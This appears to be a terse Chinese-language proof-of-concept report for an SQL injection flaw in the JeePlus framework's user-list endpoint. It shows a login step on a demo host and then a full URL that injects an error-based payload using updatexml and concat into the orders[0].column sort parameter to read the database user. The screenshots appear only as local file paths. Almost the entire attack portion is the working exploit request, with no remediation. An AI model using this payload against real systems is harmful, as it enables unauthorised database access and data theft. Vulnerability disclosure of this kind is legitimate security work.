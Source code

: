 1、登录：http://demo1.jeeplus.org/#/login

![4e44732afb7a650c5076327b88f6340](C:\Users\AS\Desktop\新建文件夹\4e44732afb7a650c5076327b88f6340.png)

2、访问地址

http://demo1.jeeplus.org/jeeplus-vue/sys/user/list?orders%5B0%5D.column=updatexml(1,concat(0x7e,user(),0x7e),1)

![a1e02a5c037484ed44fb6be4704e857](C:\Users\AS\Desktop\新建文件夹\a1e02a5c037484ed44fb6be4704e857.png)